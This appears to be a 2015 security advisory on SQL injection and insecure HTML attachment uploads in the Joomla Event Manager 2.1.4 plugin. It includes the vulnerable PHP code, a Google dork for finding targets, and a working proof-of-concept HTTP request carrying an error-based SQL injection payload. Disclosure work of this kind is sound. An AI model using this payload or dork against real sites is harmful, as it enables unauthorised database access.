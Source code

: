 ```yaml
---
title:  "Multiple vulnerabilities in Joomla Event Manager 2.1.4"
date:   2017-08-10 20:00:00
excerpt: "A couple of security issues in Joomla Event Manager plugin, JEM 2.1.4."
---
```


* _Author_: Martino Sani
* _Release date_: 2015-08-12
* _Vendor Homepage_: www.joomlaeventmanager.net
* _Software Link_: www.joomlaeventmanager.net/download?download=50:jem-2-1-4-stable
* _Version_: 2.1.4
* _Google Dork_: inurl:option=com_jem
* _Exploit-DB_: www.exploit-db.com/exploits/37767/
* _CVE_: -

I identified some vulnerabilities and insecure settings in Joomla Event Manager plugin, JEM 2.1.4. A malicious user could use these issues to access back-end database data and attack application clients. Attacker must have valid authentication credentials to exploit these issues.

## SQL Injection

Authenticated user can execute arbitrary SQL queries via SQL injection in the functionality that allows to publish/unpublish an event. Vulnerable resource is *index.php?option=com_jem&view=myevents* and the injection point is *cid* parameter.

```php
// sites/models/myevents.php
function publish($cid = array(), $publish = 1)
{
    if (is_array($cid) && count($cid)) {
        $cids = implode(',', $cid);

	$query = 'UPDATE #__jem_events'
               . ' SET published = '. (int) $publish
               . ' WHERE id IN ('. $cids .')'
               . ' AND (checked_out = 0 OR (checked_out = ' .$userid. '))';

        $this->_db->setQuery($query);
    }
}
```

POC
```
POST /joomla3.4.3/index.php?option=com_jem&view=myevents&Itemid=151 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Cookie: 55cfbe406ffe44b0159d9a943820d207=gauuoq0rqlakkltqj4dd1mpd76; jpanesliders_stat-pane=0; jpanesliders_event-sliders-10=2; d6300469df4ad94ccc019d02bc74f647=4339lu3g2tn4lhg2lvgd8ft263
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 352

filter=1&filter_search=&limit=10&cid%5B%5D=1,2)%20AND%20(SELECT%206959%20FROM(SELECT%20COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.TABLES%20GROUP%20BY%20x)a)%20AND%20(1577=1577&filter_order=a.dates&filter_order_Dir=&enableemailaddress=0&boxchecked=1&task=myevents.unpublish&option=com_jem&5c597c6e06b1d6627024f147b562ecaf=1
```

## Insecure File Upload

Default JEM settings allow to upload HTML/HTM files as event's attachment. An authenticated attacker could upload malicious HTML/HTM files with malicious code (e.g. Javascript). These attachments could be reachable on *<<website>>/media/com_jem/attachments/event/event[id]/* or downloaded and executed locally by the victim's browser.

Attachments process is handled by */site/classes/attachments.class.php* file.

File types allowed by default are in the */admin/sql/install.mysql.utf.sql* file.

## Timeline

* 2015-08-01: Vendor notification.
* 2015-08-12: Vendor fixes the issues in the development branch.
	
The author is not responsible for the misuse of the information provided in this advisory.